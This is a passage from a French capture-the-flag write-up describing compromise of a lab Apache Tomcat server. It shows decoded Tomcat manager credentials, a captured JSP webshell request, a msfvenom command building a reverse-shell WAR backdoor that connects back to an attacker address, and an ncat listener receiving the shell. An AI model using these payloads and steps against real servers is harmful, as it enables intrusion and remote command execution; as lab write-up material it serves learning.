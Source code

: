 C'est bien sûr di base64 qui se décode en :

`tomcat:Tt\5D8F(#!*u=G)4m7zB`

Et une dernière requête semble correspondre à un webshell JSP :

```http
GET /cmd/cmd.jsp?cmd=id HTTP/1.1
Host: 192.168.110.140:8443

HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Content-Type: text/html

<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
Command: id<BR>
uid=104(tomcat6) gid=112(tomcat6) groups=112(tomcat6)
```

Si vous avez bien reconfiguré le Tomcat pour qu'il prenne du TLS alors y accéder avec les identifiants ne devrait pas poser de problèmes.

J'ai tenté de réutiliser la même backdoor WAR que la dernière fois :

[GitHub - p0dalirius/Tomcat-webshell-application: A webshell application and interactive shell for pentesting Apache Tomcat servers.](https://github.com/p0dalirius/Tomcat-webshell-application)

Mais ça ne semblait pas fonctionner, peut être parce que la version de Tomcat est assez ancienne. Finament j'ai créé le WAR avec `msfvenom` :

```bash
msfvenom --payload java/jsp_shell_reverse_tcp -f war LHOST=192.168.110.1 LPORT=9999 -o backdoor.war
```

On met un ncat en écoute et on charge l'URL où le war s'est déployé (une fois uploadé via l'interface web de Tomcat) :

```shellsession
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.110.140.
Ncat: Connection from 192.168.110.140:49278.
id
uid=104(tomcat6) gid=112(tomcat6) groups=112(tomcat6)
```

Il y a deux utilisateurs. L'un s'appelle `Milton` (tout le CTF s'inspire du film [35 heures, c'est déjà trop](https://fr.wikipedia.org/wiki/35_heures,_c%27est_d%C3%A9j%C3%A0_trop). Il a une copie du keystore que l'on connait déjà ainsi qu'un script world-writable mais ce dernier contient du texte (pas de commandes bash) sans importance.
